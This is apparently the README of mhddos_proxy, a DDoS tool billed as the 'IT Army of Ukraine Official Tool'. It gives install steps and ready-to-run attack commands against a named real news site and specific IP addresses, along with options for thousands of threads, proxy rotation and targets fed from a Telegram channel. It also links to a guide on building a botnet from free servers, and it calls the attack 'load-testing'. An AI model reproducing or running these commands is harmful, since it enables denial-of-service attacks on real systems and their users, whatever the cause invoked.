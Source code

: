 ## IT Army of Ukraine Official Tool

### Use flag `--lang en` to enable English translation

- Built-in proxy server database with a wide range of IPs around the world
- Possibility to set a huge number of targets with automatic load balancing
- A variety of different load-testing methods
- Effective utilization of your resources due to the asynchronous architecture

### ⏱ Recent updates
- **08.06.2020** Added `--copies auto` option to set the value automatically based on the resources available
- **25.05.2022** Improved default output - the `--debug` option is no longer required 
- **24.05.2022** Added auto-update option - see [Running](#2--running-different-options-for-targets-are-given)
- **21.05.2022** Added english localization - use flag `--lang EN` (more languages may be added later)

### 1. 💽 Installation

#### Extended instructions (UA only so far) - [click here](/docs/installation.md)

#### Python (if it doesn't work, try `python` or `python3.10` instead of `python3`)

Requires python >= 3.8 and git

    git clone https://github.com/porthole-ascend-cinnamon/mhddos_proxy.git
    cd mhddos_proxy
    python3 -m pip install -r requirements.txt

#### Docker

Install and start Docker: https://docs.docker.com/desktop/#download-and-install

### 2. 🕹 Running (different options for targets are given)

#### Python with automatic updates (if it doesn't work, try `python` or `python3.10` instead of `python3`)

    ./runner.sh python3 https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Python (manual updates required) (if it doesn't work, try `python` or `python3.10` instead of `python3`)

    python3 runner.py https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

#### Docker (for Linux, add sudo in front of the command)

    docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy https://ria.ru 5.188.56.124:80 tcp://194.54.14.131:4477

### 3. 🛠 Options (check out more in the [CLI](#cli) section)

All options can be combined, you can specify them either before and after the list of targets

- Consider adding your IP/VPN to the attack (especially when running on dedicated server), add flag `--vpn`
- To use targets provided by https://t.me/itarmyofukraine2022, add the `--itarmy` flag  
- Number of threads: `-t XXXX` - the default is 7500 (or 1000 if the machine has only one CPU).
- Number of copies: `--copies X` or `--copies auto` - in case you have 2+ CPU and stable network 100+ Mb/s

### 4. 📌 Help with finding new proxies for mhddos_proxy
The script itself and installation instructions are here: https://github.com/porthole-ascend-cinnamon/proxy_finder

### 5. 🐳 Community (mostly in Ukrainian)
- [Create a botnet of 30+ free and standalone Linux servers](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c)
- [Detailed analysis of mhddos_proxy and installation instructions](docs/installation.md)
- [Analysis of mhddos_proxy](https://telegra.ph/Anal%D1%96z-zasobu-mhddos-proxy-04-01)
- [Example of running via docker on OpenWRT](https://youtu.be/MlL6fuDcWlI)
- [VPN](https://auto-ddos.notion.site/VPN-5e45e0aadccc449e83fea45d56385b54)

### 6. CLI

    usage: runner.py target [target ...]
                     [-t THREADS] 
                     [-c URL]
                     [--debug]
                     [--vpn]
                     [--http-methods METHOD [METHOD ...]]
                     [--itarmy]
                     [--copies COPIES]

    positional arguments:
      targets                List of targets, separated by space
    
     optional arguments:
      -h, --help             show this help message and exit
      -c, --config URL|path  URL or local path to file with targets list
      -t, --threads 7500     Number of threads (default is 7500 if CPU > 1, 1000 otherwise)
      --vpn                  Use both my IP and proxies. Optionally, specify a percent of using my IP (default is 10%)
      --proxies URL|path     URL or local path(ex. proxies.txt) to file with proxies to use
      --http-methods GET     List of HTTP(L7) methods to use (default is GET + POST|STRESS).
      --debug                Detailed log for each target
      --itarmy               Attack targets from https://t.me/itarmyofukraine2022  
      --copies 1             Number of copies to run (default is 1). Use "auto" to set the value automatically
      --lang {en,ua}         Select language (default is ua)

### 7. Custom proxies

#### File format (any of the following):

    IP:PORT
    IP:PORT:username:password
    username:password@IP:PORT
    protocol://IP:PORT
    protocol://IP:PORT:username:password

where `protocol` can be one of 3 options: `http`|`socks4`|`socks5`. 
If `protocol` is not specified, default value `http` is used.
For example, for a public `socks4` proxy the format will be fhe following:

    socks4://114.231.123.38:3065

and for the private `socks4` proxy format can be one of the following:

    socks4://114.231.123.38:3065:username:password
    socks4://username:password@114.231.123.38:3065

**URL of the remote file for Python and Docker**

    --proxies https://pastebin.com/raw/UkFWzLOt

where https://pastebin.com/raw/UkFWzLOt is your web page with a list of proxies (each proxy should be on a new line)  

**Path for the local file for Python**  
  
Put the file in the folder with `runner.py` and add the following option to the command (replace `proxies.txt` with the name of your file)

    --proxies proxies.txt https://ria.ru

where `proxies.txt` is your proxy list file (each proxy should be on a new line)
